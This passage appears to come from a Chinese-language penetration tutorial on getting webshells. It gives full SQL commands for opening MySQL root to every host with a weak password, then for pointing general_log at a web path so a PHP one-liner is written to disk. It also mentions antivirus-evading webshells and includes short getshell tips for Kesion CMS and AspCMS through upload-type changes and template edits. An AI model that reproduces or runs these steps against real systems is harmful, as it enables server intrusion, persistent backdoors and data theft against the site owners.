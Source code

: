 **如果有waf会拦截不让导shell**  
1.找免杀马  
2.开启外联  

```
`#开外链。将mysql root放在所有地址上并设置密码``Grant all privileges on *.* to 'root'@'%' identified by '123.com' with grant option;``#公网地址链接目标mysql服务器``mysql.exe -h 200.1.1.1 -uroot -p`
```

3.通过远程地址链接mysql服务器导入一句话  
  
**如果导出函数into outfile 被禁用**  
1.生成日志getshell  
genaeral log设置为on，备份genaeral log file路径后修改为我们要导的shell路径。然后执行带有一句话的sql语句写入日志文件，成功getshell。完成后记得还原genaeral log file路径

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

备份路径：genaeral log file：D:\\SOFT\\webbuild\\php\\MySQL\\data\\DESKTOP-CCDQEGR.log

执行：select “<?php phpinfo();?>”

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

写入成功：http://localhost/xxx.php  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```
`#命令行操作：``set global general_log=on;``set global general_log_file='shell路径';``#还原``set global general_log=off;``set global general_log_file='D:\SOFT\webbuild\php\MySQL\data\DESKTOP-CCDQEGR.log';`
```

  

---

5.kesion cms
------------

科迅cms需要使用ie低版本浏览器  
一、添加上传类型

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

这里会回显文件名不合法。但是实际上已经上传成功（新版本失败）

6.aspcms
--------

1.插件管理，界面风格修改asp文件

2.扩展功能，数据库备份
